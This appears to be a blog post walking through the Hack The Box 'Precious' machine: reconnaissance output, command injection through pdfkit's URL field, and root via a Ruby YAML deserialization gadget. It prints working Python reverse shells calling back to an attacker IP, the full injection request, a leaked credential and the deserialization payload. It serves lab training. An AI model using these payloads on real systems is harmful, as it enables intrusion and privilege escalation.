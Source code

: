 
---
layout: post
title:  Hack the Box pentest Precious
image: /assets/img/HTB-Logo.png
date:   2023-01-11 15:49:01
tags:
- pentest
description: Basic pentest challenge
categories:
- Hack The Box
- Pentest
---

Description

![](/assets/img/2023-01-11-15-51-29.png)


This machine focuses on giving only 1 path of access without rabbitholes or distractions. 

Running nmap against it we only see 2 services ssh, and a webserver.

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-11 05:28 EST
Nmap scan report for 10.10.11.189
Host is up (0.027s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.35 seconds

```


Afterwards we look at the webservice from 2 viewpoints:

![](/assets/img/2023-01-11-15-55-29.png)

We open burp and intercept a packet from this page in order to see if any banners are shown:

![](/assets/img/2023-01-11-15-59-05.png)


Running gobuster yields nothing:
```
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://precious.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /home/kali/Desktop/stuff/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.3
[+] Timeout:         10s
[+] Append Domain:   false
===============================================================
2023/01/11 05:31:15 Starting gobuster in VHOST enumeration mode
===============================================================
Progress: 4911 / 4990 (98.42%)===============================================================
2023/01/11 05:31:28 Finished
===============================================================
```              


Also we open ncat and point the app at us by putting http:ip:port in the form. We get:

nc -nvlp 8888                      
listening on [any] 8888 ...
connect to [10.10.14.42] from (UNKNOWN) [10.10.11.189] 39288
GET / HTTP/1.1
Host: 10.10.14.42:8888
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/602.1 (KHTML, like Gecko) wkhtmltopdf Version/10.0 Safari/602.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en-US,*

We identify wkhtmltopdf which is exploitable in some versions but not ours. Still I tried some exploits to no success.


Afterwards we look at the product of the page, the pdf files. Using exiftool we read the metadata of the pdf produced.

```
ExifTool Version Number         : 12.54
File Name                       : qb5e0d3ddb13qp0cvjs4ml4u4syqhhsl.pdf
Directory                       : .
File Size                       : 10.0 kB
File Modification Date/Time     : 2023:01:11 05:44:47-05:00
File Access Date/Time           : 2023:01:11 05:44:48-05:00
File Inode Change Date/Time     : 2023:01:11 05:44:47-05:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```

We see pdfkit which is exploitable and we can gain a shell.

For the shell we can use payloadsallthethings and get the python, but change python to python3.
this should work
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.42",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'


```
POST / HTTP/1.1

Host: precious.htb

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 282

Origin: http://precious.htb

Connection: close

Referer: http://precious.htb/

Upgrade-Insecure-Requests: 1



url=http://10.10.14.42:8000/index.html?crow%3D%2520%60python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.42",8888));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")';sleep 2%60
```
This should get us shell. You can use any variable name, i used crow.

Afterwards we run linpeas and search through the output.

One of the files contains the password for the user henry.
```
╔══════════╣ Executable files potentially added by user (limit 70)
2022-11-21+15:15:08.0729708500 /usr/local/sbin/laurel                                                           
2022-09-26+05:04:43.6880195170 /home/ruby/.bundle/config
2022-09-26+05:04:42.9800195060 /usr/local/bin/tilt
2022-09-26+05:04:42.8480195040 /usr/local/bin/rackup
2022-09-26+05:04:39.0520194460 /usr/local/bin/bundler
2022-09-26+05:04:39.0520194460 /usr/local/bin/bundle
```


Afterwards we get the contents and use the ssh to gain a better shell with the user henry:

---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
ruby@precious:/var/www/pdfapp$ 

After running linpeas again we see that henry can run as sudo ruby and a file:

```
User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

We see that there is a yaml file being loaded and use an exploit for yaml deserialization.
You can create the dependencies.yml file anywhere but it's better to make it in tmp.
The exploitable file should look like:


```
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "your revshell"
         method_id: :resolve
```

This will get you to root and you can then get the root flag.